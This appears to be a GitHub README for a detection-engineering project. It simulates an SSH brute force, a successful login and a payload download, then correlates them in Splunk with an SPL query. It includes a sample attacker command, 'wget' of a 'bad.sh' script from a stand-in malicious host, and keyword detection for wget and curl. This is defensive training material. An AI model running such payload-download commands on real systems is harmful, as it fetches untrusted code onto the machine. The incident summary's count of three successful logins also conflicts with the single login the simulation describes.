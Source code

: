# 🔐 Log Correlation & Detection Engineering

This project simulates a multi-stage attack chain using Linux SSH logs and bash history, showcasing how a SOC Analyst correlates
brute-force login attempts, successful access,and post-login command execution using Splunk.

---

## 🎯 Objective

Correlate these stages:
- ❌ Multiple failed SSH login attempts
- ✅ One successful login
- ⚠️ Suspicious `wget` command used to download a potential payload

---

## 🧪 Simulated Activity

### 🔹 1. SSH Brute-force (Failed)

ssh testuser@127.0.0.1
# Enter wrong password 4 times

🔹 2. SSH Success


ssh testuser@127.0.0.1
# Enter correct password

3. Suspicious Command

wget http://malicious-site.com/bad.sh

🛠️ Splunk Setup (CLI-Only)
Monitored the following log files:

# Authentication logs (already monitored)
sudo /opt/splunk/bin/splunk add monitor /var/log/auth.log -sourcetype linux_secure

# Bash command history (for wget/curl detection)
sudo /opt/splunk/bin/splunk add monitor /home/testuser/.bash_history -sourcetype bash_history

# Restart Splunk
sudo /opt/splunk/bin/splunk restart
🔎 Detection Logic (SPL)

(index=* sourcetype=linux_secure "Failed password" OR "Accepted password")

OR (index=* sourcetype=bash_history "wget" OR "curl")

| transaction user maxspan=10m

| search eventcount>=6

| table _time user host eventcount



# ✅ Outcome
Stage	Log Source

Failed logins	/var/log/auth.log

Successful login	/var/log/auth.log

wget command	.bash_history

The SPL successfully tied together all three elements, simulating a detection that would trigger in a real-world SOC for lateral movement or data staging activity.

# 📄 Incident Report (Summary)

Incident Type: SSH Brute Force + wget Execution

Date: June 4, 2025

Host: siem-server

User: testuser

Indicators:

- 4x Failed SSH logins

- 3x Successful login

- wget used post-authentication

Log Sources: auth.log, .bash_history

Status: Detected via Splunk correlation

# 💡 Lessons Learned
Not all suspicious behavior appears in syslog — .bash_history matters

Real attacks often span multiple logs

CLI-based simulation is faster and more efficient than GUI in many cases

# 🧑‍💻 Project Author
Vinay Raghavendra

